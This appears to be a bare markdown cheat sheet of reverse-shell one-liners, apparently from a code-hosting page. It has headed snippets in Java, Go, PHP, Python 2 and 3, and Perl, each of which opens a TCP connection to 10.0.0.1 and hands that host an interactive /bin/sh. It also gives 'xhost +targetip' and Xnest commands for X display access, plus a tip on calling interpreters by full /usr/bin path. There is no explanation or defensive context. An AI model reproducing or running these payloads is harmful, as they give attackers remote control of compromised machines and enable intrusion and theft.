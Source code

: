 # XNEST
```
Xnest :1
```

# XHOST
```
xhost +targetip
```

# JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# GOLANG
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

# Bypassing IF dont have any Function OUTPUT!
USING /usr/bin/

# PHP
```
/usr/bin/php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# PYTHON
// Python3 Usage:
```
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

// Python2 Usage:
```
/usr/bin/python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PERL
```
/usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
